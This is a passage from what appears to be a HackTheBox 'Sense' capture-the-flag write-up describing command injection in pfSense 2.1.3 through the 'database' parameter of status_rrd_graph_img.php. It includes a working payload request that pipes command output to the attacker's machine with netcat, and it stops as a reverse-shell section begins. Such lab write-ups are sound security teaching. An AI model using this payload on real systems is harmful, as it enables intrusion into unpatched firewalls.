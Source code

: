 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:36:00.png)

# pfSense

Now, with the credentials valid, we can start looking for something to explore on pfSense.

If we look on the Version, we can see what we need to explore

```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:39:23.png)

`https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/`

Now we start to see how to get RCE on it

## RCE

It shows that we can get rce on `Graph - Status - RRD Graph` so, we open it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:41:50.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:42:09.png)

We click to see the image (Right Button - View Image)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:42:58.png)

The RCE is in `database` parameter

## Burp

We open our BurpSuite to Work better with the aplication and send the request to Repeater

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:45:01.png)

We clean it to see better, and test our RCE payload after update it

```
GET /status_rrd_graph_img.php?database=queues;id|nc+10.10.14.18+5555 HTTP/1.1
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2008:47:53.png)

## Reverse Shell

Now, once we got RCE, the next path is to get the reverse shell on the box

We encounter some bad aspects when trying to get the reverse shell, the first one is that `/` is a `BAD CHAR`, so we cannot use it on our payloads, how I discovered it? Trying...
